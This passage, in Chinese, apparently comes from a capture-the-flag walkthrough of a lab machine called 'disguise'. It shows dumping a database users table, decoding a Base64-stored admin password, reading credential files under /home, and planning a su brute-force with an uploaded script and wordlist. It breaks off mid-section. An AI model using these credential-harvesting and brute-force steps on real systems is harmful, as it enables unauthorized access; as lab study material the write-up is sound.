 ```bash
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dark_shop]> show tables;
+---------------------+
| Tables_in_dark_shop |
+---------------------+
| products            |
| users               |
+---------------------+
2 rows in set (0.000 sec)

MariaDB [dark_shop]> select * from users;
+----+------------------------------------------+--------------------------+---------+---------------------+
| id | username                                 | password                 | isAdmin | created_at          |
+----+------------------------------------------+--------------------------+---------+---------------------+
|  1 | simpleAdmin                              | U3RyMG5nUGFzc3cwZDFAQEA= |       1 | 2025-04-01 04:33:22 |
# ... 其他用户 ...
+----+------------------------------------------+--------------------------+---------+---------------------+
13 rows in set (0.001 sec)
```

`simpleAdmin` 的密码哈希是 `U3RyMG5nUGFzc3cwZDFAQEA=`，Base64解码后是 `Str0ngPassw0d1***`。

查看 `/home/` 目录，发现用户 `darksoul`。

```bash
www-data@disguise:/var/www/dark$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Mar 31 11:19 .
drwxr-xr-x 18 root     root     4096 Mar 31 11:13 ..
drwxr-xr-x  4 darksoul darksoul 4096 Apr  2 04:19 darksoul
```

尝试用 `Str0ngPassw0d1***` 切换到 `darksoul`，失败。
在 `/home/darksoul/` 目录下发现 `config.ini`，内容和 `/var/www/dark/config.php` 中的数据库密码一致。

```bash
www-data@disguise:/home/darksoul$ cat config.ini 
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
```

看来 `darksoul` 的密码需要爆破。密码格式可能是 `Str0ngPassw0d1` + 三个特殊字符。
上传一个su爆破脚本 `suForce` 和密码字典 `pass` 到 `/tmp/`。
字典 `pass` 生成方法
